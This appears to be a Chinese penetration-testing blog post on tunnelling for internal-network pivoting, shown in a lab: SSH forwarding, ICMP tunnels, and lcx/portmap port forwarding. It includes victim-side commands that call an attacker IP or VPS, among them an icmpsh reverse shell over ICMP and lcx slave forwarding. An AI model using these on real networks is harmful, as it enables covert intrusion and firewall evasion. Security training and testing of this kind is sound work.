 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: img/wenzhang/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![BC9NB4.png](https://s1.ax1x.com/2020/10/21/BC9NB4.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![BC9cuD.png](https://s1.ax1x.com/2020/10/21/BC9cuD.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![BCC8IA.png](https://s1.ax1x.com/2020/10/21/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![BCPky8.png](https://s1.ax1x.com/2020/10/21/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![BCPFQf.png](https://s1.ax1x.com/2020/10/21/BCPFQf.png)



![BCPiSP.png](https://s1.ax1x.com/2020/10/21/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![BpSU2D.png](https://s1.ax1x.com/2020/10/20/BpSU2D.png)



流量情况

![BpSN8O.png](https://s1.ax1x.com/2020/10/20/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![BCL1Re.png](https://s1.ax1x.com/2020/10/21/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![BCTpsx.png](https://s1.ax1x.com/2020/10/21/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![BCbeSJ.png](https://s1.ax1x.com/2020/10/21/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![BCLYqI.md.png](https://s1.ax1x.com/2020/10/21/BCLYqI.md.png)



访问本地的6000 端口

![BCL3xH.png](https://s1.ax1x.com/2020/10/21/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![BpWNbd.png](https://s1.ax1x.com/2020/10/20/BpWNbd.png)



仅本地可以访问

![BpWaVA.png](https://s1.ax1x.com/2020/10/20/BpWaVA.png)



公网ip 无法访问

![BpWtDH.png](https://s1.ax1x.com/2020/10/20/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![BpWYKe.md.png](https://s1.ax1x.com/2020/10/20/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![BpfPqH.png](https://s1.ax1x.com/2020/10/20/BpfPqH.png)



![BpWGvD.png](https://s1.ax1x.com/2020/10/20/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

[![B9RC28.png](https://s1.ax1x.com/2020/10/21/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![B9sgPO.png](https://s1.ax1x.com/2020/10/21/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![B9sDq1.png](https://s1.ax1x.com/2020/10/21/B9sDq1.png)



受害内网服务

![B9sya6.png](https://s1.ax1x.com/2020/10/21/B9sya6.png)



被映射到自己vps 8008端口

![B9ssVx.png](https://s1.ax1x.com/2020/10/21/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![BPPt5d.md.png](https://s1.ax1x.com/2020/10/21/BPPt5d.md.png)

